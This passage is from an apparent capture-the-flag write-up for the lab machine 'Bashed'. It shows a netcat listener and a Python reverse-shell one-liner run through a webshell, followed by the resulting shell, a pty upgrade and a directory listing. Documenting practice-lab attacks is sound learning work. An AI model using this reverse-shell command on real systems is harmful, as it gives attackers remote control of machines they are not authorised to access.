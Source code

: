 <div style="text-align: justify;">
  User flag captured!
</div>

<div style="text-align: justify;">
  Using this shell (through firefox) was not easy. So i wanted see if i can get a reverse shell. I started a listener on my kali machine
</div>

<pre>[root:~]# nc -nlvp 5555
listening on [any] 5555 ...</pre>

<div style="text-align: justify;">
  And on the Firefox webshell on Bashed I ran
</div>

<pre>www-data@bashed:/# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.234",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);</pre>

<div style="text-align: justify;">
  Back on my kali machine i now had shell as www-data
</div>

<pre>[root:~]# nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.68] 39788
/bin/sh: 0: can't access tty; job control turned off
$</pre>

It looks horrible and quite limited. I spawned a new tty shell by running the following

<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>

<div style="text-align: justify;">
  New prompt
</div>

<pre>www-data@bashed:/var/www/html/dev$</pre>

<div style="text-align: justify;">
  That looks a bit better though it doesnt really give us more functionality ( that i can tell ).
</div>

<div style="text-align: justify;">
  After exploring the box a bit i found this really interesting
</div>

<pre>www-data@bashed:/$ ls -l
ls -l
total 80
drwxr-xr-x 2 root root 4096 Dec 4 11:22 bin
drwxr-xr-x 3 root root 4096 Dec 4 11:17 boot
drwxr-xr-x 19 root root 4240 Apr 1 14:08 dev
drwxr-xr-x 89 root root 4096 Dec 4 17:09 etc
drwxr-xr-x 4 root root 4096 Dec 4 13:53 home
lrwxrwxrwx 1 root root 32 Dec 4 11:14 initrd.img -&gt; boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 11:16 lib
drwxr-xr-x 2 root root 4096 Dec 4 11:13 lib64
drwx------ 2 root root 16384 Dec 4 11:13 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 11:13 media
drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
drwxr-xr-x 2 root root 4096 Dec 4 11:18 opt
dr-xr-xr-x 148 root root 0 Apr 1 14:08 proc
drwx------ 3 root root 4096 Dec 4 13:03 root
drwxr-xr-x 18 root root 520 Apr 2 06:25 run
drwxr-xr-x 2 root root 4096 Dec 4 11:18 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Apr 4 04:26 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv